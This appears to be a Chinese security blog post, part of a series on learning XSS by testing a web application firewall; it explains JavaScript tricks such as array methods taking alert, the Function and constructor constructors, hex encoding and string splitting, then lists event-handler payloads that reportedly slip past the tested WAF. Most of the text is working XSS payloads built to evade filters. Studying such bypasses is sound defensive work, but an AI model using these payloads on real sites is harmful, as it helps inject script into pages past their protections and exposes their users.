 ### 前言
- - -
今天又换了款waf，因为waf要IIS环境，我发现我是个手残党，一看就懂，操作就废，搭建个IIS环境没成功。后来有朋友说我买的服务器有重置系统，那里可以选择ASP/.NET环境，今天搭建好了。

![1](https://ws1.sinaimg.cn/large/006Xzox4ly1g1ky4we8ghj306o06oq34.jpg)

### 提醒
- - -
本文分两部分，前部分是总结新学的姿势，后半部分测试Waf。

### 数组方式
- - -
前两篇文章，我们利用js里的对象成员方法也可以用数组的形式的表示，以此构造了许多payload，在数组内将敏感函数拼接，以此来绕过。以`top`对象为演示的，在Javascrip中，可以连接数组的函数有其他可以补充的。

#### map()函数
- - -
map函数可以返回一个数组`[1].map`，而且我们在使用`map`函数的时候往往会传入一个函数，如果我们传递一个`alert`函数，那么将触发xss。
```php
[1].map(alert)
```
![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g200cpnu7bj30lk03z0sp.jpg)

类似的数组操作函数不在少数，我所知的就有**find**，**every**，**filter**，**forEach**，**findIndex**。它们和**map**函数都有一个共同的特点，可以返回数组，而且在使用的同时还以可以传入一个函数，这就为我们构造payload提供更多的选择。

我们思考一下，在那些情况下我们可以使用，其实满多，可以先看个demo。

```php
<img src=1 onerror=[1].filter(alert)>
```
成功弹窗

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g203d50hfzj30ql094aal.jpg)

那么如何更进一步呢，我们先思考下面这个例子。

```php
<img src=1 onerror=['ale'%2b'rt'].map(top['ev'%2b'al'])[0]['valu'%2b'eOf']()(/xss/)>
```
将`alert`函数以数组的方式拼接保存，通过嵌套`top`对象拆分带入`eval`函数，`valueOf`方法将返回值`/xss/`，成功弹窗。

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g204i32laqj30qb09mgm7.jpg)

从上面的例子中，我们不难看出，javascrip的这类对象方法不在少数，如果我们要寻找其他类似函数，首先满足`返回数组`，或者`字符串`，再能够带入我们的`函数`。

### function函数
- - -
在javascript，定义函数的方式有两种：一种是函数声明，另一种就是函数表达式。

这里返回结果为变量名`demo`，函数表达式也可以叫匿名函数，基本特征是没有函数名，

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g204yvqam0j30fe05wglo.jpg)

如果我们向匿名函数内添加`形参`为函数alert，再执行函数，那么可以达到弹窗的效果嘛?

```Function('alert(1)')();```答案显而易见。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g205htqg05j30ts09egmc.jpg)

然而alert关键字还是太敏感了，可以尝试将形参编码。

```Function('al\x65\x72\x74\x281\x29')();```

成功弹窗。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g205pwfwjvj30ts09i0th.jpg)

拼接也是可以达到同样的效果```Function('ale'%2b'rt(1)')();```

### open()属性
- - -
open()方法属性打开一个新的浏览器窗口，可在括号内加入参数```open(alert(1))```

成功弹窗。

![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g207srej3gj30vn09cdgk.jpg)

好玩的是，我们使用伪协议时，将会在新窗口弹出。

```<body onpageshow=open('java'%2b'script:ale'%2b'rt(1)') >```

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g2079o9zibj30vn08k756.jpg)

### 神奇的constructor
还记得前篇文章[测试WAF来学习XSS姿势(二)](https://www.anquanke.com/post/id/176300)执行代码姿势补充那段嘛，当时我以为自己，已经把`constructor`的坑填完了，早上起来查资料学习，又发现一个可用知识。

constructor是一个对象的属性，这个属性存在在此对象的prototype中, 指向此对象的构造函数。如果该对象是它自己呢?

```constructor.constructor(alert(1))```

成功触发xss

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g20oq60wojj30vn09mq3p.jpg)

如果constructor带入的是完整的函数，比如alert,prompt,confirm，那么不需要执行。怎么理解呢?

在这个demo中，我们将函数拼接，注意后面()括号，它是有必要的。

```constructor.constructor('al'%2b'ert(1)')()```

对于编码来说也是一样的，这里我们使用的是反引号，所以后面要跟着一对反引号。
```
constructor.constructor`al\x65rt\x28/xss/\x29```
```

### Waf测试
- - -
首先，我们先拿来些常用标签看看，是否会被Waf拦截，如果这个标签一出现就拦截，那我们不必在此浪费时间。

Waf拦截了，也很正常，常见一些标签`<svg>` `<img>`基本不考虑。

![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g20pitr8x3j30vn07zjrt.jpg)

找一些略微生僻的，例如```<input autofocus onfocus=alert(1)>```

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g20puuqh9kj30vn04s74o.jpg)

虽然拦截了，但是当我们把alert去掉后，就不拦截，说明这个标签可用。

![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g20px6nq6lj30vn04uq3a.jpg)

`alert`不行，可以考虑的有`prompt`，`confirm`，还有```window.onerror=alert;throw 1```这个在这里有些鸡肋不考虑。

成功弹窗。

![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g20q4y8pftj30vn093751.jpg)

下面给几个类似的，也都能绕过Waf
```php
<details open ontoggle=prompt(1)>
<select autofocus onfocus=prompt(1)>
<button onfocus=prompt(1) autofocus>
```
